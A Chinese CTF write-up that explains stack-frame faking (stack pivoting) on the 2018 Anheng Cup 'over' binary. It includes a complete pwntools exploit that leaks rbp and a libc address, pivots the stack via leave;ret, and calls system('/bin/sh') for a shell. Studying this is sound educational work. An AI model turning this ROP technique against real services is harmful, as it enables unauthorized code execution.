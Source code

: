 ```yaml
---
title: 花式栈溢出- frame  faking
date: 2020-07-09 13:04:28
updated: 2020-07-09 13:04:28
tags:
    - 花式栈溢出
    - wiki
    - pwn
categories: 
	- 二进制安全
	- wiki-pwn
use:
  - Valine
text: true
lazyload: true
count: true
---
```

# 1.查看

2018 年 6 月安恒杯月赛的 over

![image.png](https://i.loli.net/2020/11/17/hOld42mSQTIW8eF.png)

# 2.ida分析

![image.png](https://i.loli.net/2020/11/17/VTDhwctHml1nyBO.png)

依旧是很小长度的栈溢出

刚好能溢出到返回地址（0x60-0x50）

由于 read 并不会给输入末尾补上 '\0', rbp 的值就会被 puts 打印出来, 这样我们就可以通过固定偏移知道栈上所有位置的地址了

![image.png](https://i.loli.net/2020/11/17/ug2TMPYi6RLjIlD.png)

```
ebp
|
v
ebp2|leave ret addr|arg1|arg2
fake ebp
|
v
ebp2|target function addr|leave ret addr|arg1|arg2
```



# 3.编写脚本

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *
#context.log_level = 'debug'
p=process('./over')
elf = ELF("./over")
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

my_u64 = lambda x: u64(x.ljust(8, '\0'))

puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
leave_addr=0x4006be     #leave ; ret
pop_rdi=0x400793            #pop rdi ; ret

payload1='a'*0x50
p.recvuntil('>')
p.send(payload1)     
a=p.recvuntil('>',drop=True) 
ebp=my_u64(a[80:86])              
print 'ebp: '+hex(ebp)
stack=ebp-0x70          
#之所以 -0x70 是因为 rbp里面存的是 main的rbp
#stack=sub_400676_rbp-0x50=(main_rbp-0x20)-0x50
print 'stack: '+hex(stack)

payload2='a'*8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(0x400676)+'a'*40+p64(stack)+p64(leave_addr)
p.send(payload2)
b=p.recv()
puts=my_u64(b[12:-2])
print 'puts: '+hex(puts)

libcbase=puts-libc.symbols["puts"]
system=libc.symbols["system"]+libcbase
binsh=next(libc.search("/bin/sh"))+libcbase
print 'libcbase: '+hex(libcbase)
print 'system: '+hex(system)

payload3='a'*8+p64(pop_rdi)+p64(binsh)+p64(system)+p64(0x400676)+'a'*40+p64(stack-0x30)+p64(leave_addr)
#执行到这一步的时0x30=sub_400676_rbp-rsp（第一次影响了rsp，再次返回到main函数跟第一次的栈有区别）
p.send(payload3)

p.interactive()
```